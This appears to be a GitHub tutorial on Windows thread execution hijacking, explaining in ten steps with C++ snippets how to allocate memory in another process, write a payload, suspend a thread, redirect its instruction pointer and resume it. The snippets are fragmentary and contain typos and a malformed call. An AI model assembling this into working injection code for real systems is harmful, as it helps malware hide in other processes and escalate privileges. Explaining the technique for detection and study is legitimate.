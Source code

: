 # Process Injection: Thread Execution Hijacking

## Overview

Process injection is a technique used by attackers to inject malicious code into the address space of another process. This allows them to prevent detection and elevate privileges. 

One of the sub-techniques of process injection is Thread Execution Hijacking, also known as Suspend, Inject, and Resume (SIR). This technique avoids the creation of new processes or threads, which can be noisy and more easily detected by security measures.

## High-Level Steps

Thread execution hijacking can be broken down into the following high-level steps:

1. **Locate and open a target process to control.**
2. **Allocate a memory region for malicious code.**
3. **Write malicious code to the allocated memory.**
4. **Identify the thread ID of the target thread to hijack.**
5. **Open the target thread.**
6. **Suspend the target thread.**
7. **Obtain the thread context.**
8. **Update the instruction pointer to the malicious code.**
9. **Rewrite the target thread context.**
10. **Resume the hijacked thread.**

## Detailed Steps

### 1. Locate and Open a Target Process to Control

The attacker identifies a running process to hijack, usually one with higher privileges or access to sensitive information. Functions like `CreateToolhelp32Snapshot()`, `Thread32First()`, and `Thread32Next()` are used to enumerate through the existing threads of a target process.

#### CreateTOolhelp32Snapshort() : Takes a snapshot of the specified processes, as well as the heaps, modules, and threads used by these processes. It inclues lot of parameters such as

***Snapshot: A collection of system objects captured at a point in time***

- TH32CS_SNAPHEAPLIST: Includes the heap list of the process specified in th32ProcessID.
- TH32CS_SNAPPROCESS: Includes all processes in the system.
- TH32CS_SNAPTHREAD: Includes all threads in the system.
- TH32CS_SNAPMODULE: Includes all modules of the process specified in th32ProcessID.
- TH32CS_SNAPMODULE32: Includes all 32-bit modules of the process specified in th32ProcessID when running on a 64-bit system.
- TH32CS_SNAPALL: Includes all of the above.

#### Thread32First() : Retrieves information about the first thread of any process encountered in a system snapshot.
#### Thread32Next(): Retrieves information about the next thread of any process encountered in the system memory snapshot.

```cpp
THREADENTRY32 threadEntry;

HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specified process
    TH32CS_SNAPTHREAD, // Include all threads in the system
    0 // Indicates the current process
);
Bool Thread32First( // Obtains the first thread in the snapshot
    hSnapshot, // Handle of the snapshot
    &threadEntry // Pointer to the THREADENTRY32 structure
    // Describes an entry from a list of the threads executing in the system when a snapshot was taken.
);

while (Thread32Next( // Obtains the next thread in the snapshot
    hSnapshot, // Handle of the snapshot
    &threadEntry // Pointer to the THREADENTRY32 structure
)) {
    // Iterate through threads
}
```

### 2. Allocate Memory Region for Malicious Code

Memory within the address space of the target process is allocated for the malicious code using `VirtualAllocEx`.

#### VirtualAllocEx() Reserves, commits, or changes the state of a region of memory within the virtual address space of a specified process. The function initializes the memory it allocates to zero.

```cpp 
LPVOID pRemoteCode = VirtualAllocEx(hProcess, NULL, payloadSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

```
### 3. Write Malicious Code to Allocated Memory

The attacker writes the malicious code or a DLL path into the allocated memory using `WriteProcessMemory`.

```cpp 
WriteProcessMemory(hProcess, pRemoteCode, payload, payloadSize, NULL);

```

### 4. Identify the Thread ID of the Target Thread to Hijack

Enumerate through the threads of the target process to find the thread to hijack, using the `THREADENTRY32` structure and functions like `Thread32First` and `Thread32Next`.

### 5. Open the Target Thread

Using `OpenThread`, the attacker obtains a handle to the target thread.

```cpp
HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, targetThreadId);

 ```

### 6. Suspend the Target Thread

The identified thread within the process is suspended using the `SuspendThread` API call.
```cpp
SuspendThread(hThread);
```

### 7. Obtain the Thread Context

The context of the suspended thread, which includes the thread's register states and execution pointers, is retrieved using `GetThreadContext`.

```cpp
CONTEXT ctx;
ctx.ContextFlags = CONTEXT_CONTROL;
GetThreadContext(hThread, &ctx);
```

### 8. Update the Instruction Pointer to the Malicious Code

The instruction pointer in the thread's context is updated to point to the address of the injected malicious code.

```cpp
ctx.Rip = (DWORD64)pRemoteCode; // For 64-bit systems
```

### 9. Rewrite the Target Thread Context

The modified context is then written back to the thread using `SetThreadContext`.

```cpp
SetThreadContext(hThread, &ctx);

```

### 10. Resume the Hijacked Thread

Finally, the thread is resumed using the `ResumeThread` API call, causing it to execute the injected malicious code.

```cpp
ResumeThread(hThread);

```